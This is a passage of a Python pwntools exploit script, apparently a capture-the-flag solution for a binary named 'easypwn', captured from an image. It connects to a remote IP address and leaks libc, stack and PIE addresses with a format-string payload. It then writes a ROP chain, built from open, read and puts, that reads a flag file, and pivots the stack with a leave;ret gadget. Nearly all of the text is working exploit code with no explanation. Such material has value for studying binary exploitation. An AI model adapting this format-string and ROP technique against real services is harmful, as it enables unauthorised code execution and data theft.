 ```
    write(pie+0x202500+offset+2,(val&gt;&gt;16)&amp;0xffff)
    write(pie+0x202500+offset+4,(val&gt;&gt;32)&amp;0xffff)

def write_stack_addr(offset,val):
    write(stack+offset,val&amp;0xffff)
    write(stack+offset+2,(val&gt;&gt;16)&amp;0xffff)
    write(stack+offset+4,(val&gt;&gt;32)&amp;0xffff)

#p=process('./easypwn')
p=remote('139.217.102.146',33865)
debug()
#leak stak libc &amp;&amp; pie
#test 0x7ffe4279d630 0x7fcf97582840 
p.sendafter('name?','%19$p%14$p%18$p')
p.recvuntil('0x')
libcbase=int(p.recv(12),16)-0x20840
log.success("libc --&gt;"+hex(libcbase))

p.recvuntil('0x')
stack=int(p.recv(12),16)
log.success("stack --&gt;"+hex(stack))

p.recvuntil('0x')
pie=int(p.recv(12),16)-0xd70
log.success("pie --&gt;"+hex(pie))
p.sendlineafter("how old are you??",str(100))
debug()
## make loop \x00  -- is iok
name='%'+str(0x3a)+"c"+"%10$hhnaaaaa"+p64(stack-0x18)
p.sendafter('name?',name)
p.sendlineafter("how old are you??",str(100))

pop_rdi=0x0000000000021112+libcbase
pop_rsi=0x00000000000202f8+libcbase
pop_rdx=0x0000000000001b92+libcbase
open_addr = 0xf70f0 + libcbase
read_addr = 0xf7310 + libcbase
puts_addr = 0x6f6a0 + libcbase
leave_ret_addr = 0x0000000000042361 + libcbase
#log.success("pop_rdi is " + hex(pop_rdi))
#write(stack+8,pop_rdi&amp;0xffff)
#write(stack+8+2,(pop_rdi&gt;&gt;16)&amp;0xffff)
#write(stack+8+2+2,(pop_rdi&gt;&gt;32)&amp;0xffff)
write_addr(8,pop_rdi)
write_addr(0x10,pie+0x202060)#./flag
write_addr(0x18,pop_rsi)
#write_addr(0x20,0)
write_addr(0x28,open_addr)

write_addr(0x30,pop_rdi)
write_addr(0x38,3)
write_addr(0x40,pop_rsi)
write_addr(0x48,pie+0x202060)
write_addr(0x50,pop_rdx)
write_addr(0x58,0x50)#once
write_addr(0x60,read_addr)

write_addr(0x68,pop_rdi)
write_addr(0x70,pie+0x202060)
write_addr(0x78,puts_addr)

write_stack_addr(0,pie+0x202500)
write_stack_addr(8,leave_ret_addr)
```